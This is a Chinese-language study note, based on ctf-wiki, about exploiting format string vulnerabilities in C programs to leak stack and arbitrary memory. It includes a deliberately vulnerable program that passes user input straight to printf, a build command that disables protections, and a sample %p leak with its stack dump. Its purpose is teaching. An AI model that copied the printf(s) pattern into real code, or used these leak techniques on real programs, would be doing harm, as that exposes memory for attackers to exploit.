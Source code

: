 # 格式化字符串漏洞利用

> 阅读 ctf-wiki 后总结

## 泄露内存 

利用格式化字符串漏洞，我们还可以获取我们所想要输出的内容。一般会有如下几种操作

- 泄露栈内存
  - 获取某个变量的值
  - 获取某个变量对应地址的内存
- 泄露任意地址内存
  - 利用 GOT 表得到 libc 函数地址，进而获取 libc，进而获取其它 libc 函数地址
  - 盲打，dump 整个程序，获取有用信息。

### 简单的泄露栈内存 

例如，给定如下程序

```c
#include <stdio.h>
# file:leakmemory.c
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);	//格式化字符串漏洞
  return 0;
}
```

32 位程序使用的是栈传参，64 位系统前 7 个参数是用寄存器传参。32 位程序可以直接利用格式化字符串泄露出存在栈上的参数。（64 位要对应调整）

编译 32 位程序：

```shell
gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
```

输入输出如下：

```shell
>>>%p.%p.%p
00000001.22222222.ffffffff.%p.%p.%p
0xffffcd10.0xc2.0xf7e8b6bb
```

栈情况：

```shell
────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%08x.%08x.%08x"
# 开始泄露位置
0xffffcd04│+0x08: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: "%08x.%08x.%08x"   ← $eax
0xffffcd14│+0x18: ".%08x.%08x"
0xffffcd18│+0x1c: "x.%08x"
```

